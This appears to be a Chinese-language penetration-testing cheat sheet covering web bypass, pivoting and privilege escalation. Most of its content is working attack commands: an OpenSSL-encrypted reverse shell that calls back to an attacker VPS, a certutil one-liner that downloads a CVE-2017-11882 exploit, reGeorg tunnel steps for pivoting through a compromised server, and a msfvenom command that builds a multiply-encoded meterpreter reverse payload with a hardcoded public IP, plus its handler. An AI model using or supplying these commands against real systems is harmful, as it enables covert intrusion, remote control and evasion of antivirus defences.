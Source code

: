 #### 二.fuzz的艺术

https://www.freebuf.com/vuls/221129.html
#### 三.Webbypass

linux反弹 shell：
```

1）VPS 上生成 ssl 证书的公钥/私钥对：
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
2）VPS 监听反弹 shell：
openssl s_server -quiet -key key.pem -cert cert.pem -port 80
3）目标上回连 shell：
mkfifo /tmp/s; /bin/bash -i < /tmp/s 2>&1 | openssl s_client -quiet -connect <your_vps>:1024 > /tmp/s; rm /tmp/s

VPS 上已获取加密的 getshell 了。
```
winodws桌面：TeamViewerQS单文件

windows下载文件；
certutil  -urlcache  -split  -f   https://raw.githubusercontent.com/backlion/demo/master/CVE-2017-11882-v1.py test.py


脚本反弹内网：[reGeorg](https://github.com/sensepost/reGeorg)
1.将 tunnel脚本（aspx | ashx | jsp | php）上传到Web服务器，访问显示“Georg says, ‘All seems fine’“，表示脚本运行正常。
2.在攻击者机器上，启动reGeorgSocksProxy.py，监听9999端口，看到 Checking if Georg is ready，确认正常运行,这个时候就可以吧目标机作为跳板了。

waf：中国蚁剑客户端，冰蝎与内存马，反复尝试使用编码字节绕过
#### 四.提权与权限维持
首先通过检查目标服务器的进程与可利用服务以及漏洞
ssl加密payload
```
###生成证书并写入文件
openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 -keyout rsaprivate.key -out servercertificate.crt

cat  rsaprivate.key servercertificate.crt >my.pem
###生成payload
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=39.97.167.211 LPORT=6667 --platform windows -a x86 HandLerSSLCert= ./my.pem StagerVerifySSLCert=true -s 42 --smallest -e x86/shikata_ga_nai -i 9 -f raw| msfvenom --platform windows -a x86 -e x86/countdown -i 8 -f raw | msfvenom --platform windows -a x86 -e x86/call4_dword_xor -i 6 -b "\x00\x0a\x0d" -f raw > /home/xskali/kali/Shecodject/output/shellcode.raw

###监听
msfconsole -q -x 'use exploit/multi/handler;set ExitOnSession false;set PAYLOAD windows/meterpreter/reverse_winhttps;set LHOST 192.168.129.128; set LPORT 4445; set HandlerSslCert /home/xskali/kali/Shecodject/output/my.pem;set StagerVerifySSLCert true; set SessionCommunicationTimeout 600 ;set autorunscript post/windows/manage/migrate; run -j -Z'

```
